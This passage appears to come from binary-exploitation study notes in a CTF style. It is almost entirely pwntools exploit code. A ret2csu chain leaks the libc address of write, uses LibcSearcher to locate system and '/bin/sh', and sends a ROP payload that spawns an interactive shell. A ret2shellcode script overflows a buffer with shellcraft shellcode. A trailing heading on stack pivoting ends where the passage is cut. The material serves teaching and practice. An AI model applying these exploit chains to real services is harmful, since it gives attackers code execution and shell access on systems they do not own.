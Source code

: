 ```python
    payload += p64(r14)   # write_got
    payload += p64(r15)   # 1
    payload += p64(csu_front)   
    payload += p64(0xdeadbeef)*7 + p64(main_addr)

    sh.sendline(payload)

if __name__ == "__main__":

    sh.recvuntil("Me?\n")
    csu(0,1,write_got,8,write_got,1,main_addr)

    write_addr = u64(sh.recv(6).ljust(8,b"\x00"))

    libc = LibcSearcher("write",write_addr)
    libc_base = write_addr - libc.dump("write")
    system_addr = libc_base + libc.dump("system")
    binsh = libc_base + libc.dump("str_bin_sh")

    sh.recvuntil("Me?\n")
    
   
    payload2 = b'a'*(0xa0)+ p64(0xdeadbeef) + p64(ret_addr)+p64(pop_rdi)+p64(binsh)+p64(system_addr)+p64(main_addr)
    sh.sendline(payload2)

    sh.interactive()
```

## ret2shellcode

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

## 栈迁移
